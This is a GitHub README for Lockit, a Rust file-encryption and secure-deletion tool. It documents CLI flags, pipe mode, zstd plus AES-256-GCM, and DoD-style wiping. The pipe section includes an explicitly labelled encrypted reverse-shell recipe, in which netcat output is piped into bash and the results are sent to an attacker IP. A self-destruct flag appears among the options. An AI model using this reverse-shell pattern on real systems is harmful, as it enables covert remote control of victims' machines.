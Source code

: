 [![Codacy Badge](https://app.codacy.com/project/badge/Grade/ee2ce70ea1a74d949cdedb0e117043a6)](https://app.codacy.com/gh/krystianbajno/lockit/dashboard?utm_source=gh&utm_medium=referral&utm_content=&utm_campaign=Badge_grade)
[![CodeFactor](https://www.codefactor.io/repository/github/krystianbajno/lockit/badge)](https://www.codefactor.io/repository/github/krystianbajno/lockit)

# Lockit
Lock it, unlock it.

⚡ Blazing fast encryption suite.

```bash
./lockit <file> <file2> <dir1>             # Process files in default mode (encrypt/decrypt)
./lockit encrypt <file> <file2> <dir1>     # Encrypt specific files
./lockit encrypt <file> -p                 # Encrypt a file with a custom passphrase.
./lockit encrypt <dir>                     # Encrypt all files in a directory
./lockit decrypt <dir/file>                # Decrypt a file or directory
./lockit encrypt <dir> --zipdir            # Compress, tar, and encrypt entire directories
./lockit remove/delete/rm/del <dir/file>   # Securely delete a file / directory.
./lockit remove <file> <file2> --skip-dod  # Skip DoD overwrite passes.
./lockit encrypt --pipe                    # Process as pipe.
./lockit decrypt --pipe -p                 # Process as pipe, custom passphrase.
./lockit --encrypt-filenames               # Encrypt file names
./lockit --no-encrypt-filenames            # Keep file names unchanged
./lockit --self-destruct                   # Remove Lockit after use
./lockit --no-self-destruct                # Retain Lockit after use
```

## Pipe
If `--pipe` is specified, the program processes the input from stdin and outputs to stdout instead of handling files or directories.

```bash
echo "Secret message" | ./lockit encrypt --pipe | ./lockit decrypt --pipe
```

That way you can encrypt files through IO:
```
cat plaintext.txt | ./lockit encrypt --pipe > encrypted.enc
```

Or use it with netcat or other tools. 
```bash
nc -lvnp 9999 | ./lockit decrypt --pipe
echo "This is a very secret message" | ./lockit encrypt --pipe | nc localhost 9999
```

You can wrap your reverse shell around it and you'll have it encrypted. Example:
```bash
nc -lvnp 9999 | ./lockit decrypt --pipe | bash 2>&1 | ./lockit encrypt --pipe | nc 192.168.50.160 9998 # victim receiving commands
nc -lvnp 9998 | ./lockit decrypt --pipe # attacker receiving output
./lockit encrypt --pipe | nc 192.168.60.244 9999 # attacker sending commands
```

## Mechanismg
- Lockit compresses files using zstd and secures them with AES-256-GCM encryption.
- Lockit provides secure file deletion that follows DoD 5220.22-M standard.

## But I have SSD
Yes, although DoD 5220.22-M short wipe is good enough for most cases, due to SSD wear leveling, you won't be able to remove the data fully using software. The best way to handle this is combination of hardware TRIM erase and cryptographic erasure. Encrypt the disk fully and delete the key.

## Installation
```bash
git clone https://github.com/krystianbajno/lockit
cargo build --release
```

## Customizing Default Settings
To change default settings, simply modify `build.rs`.
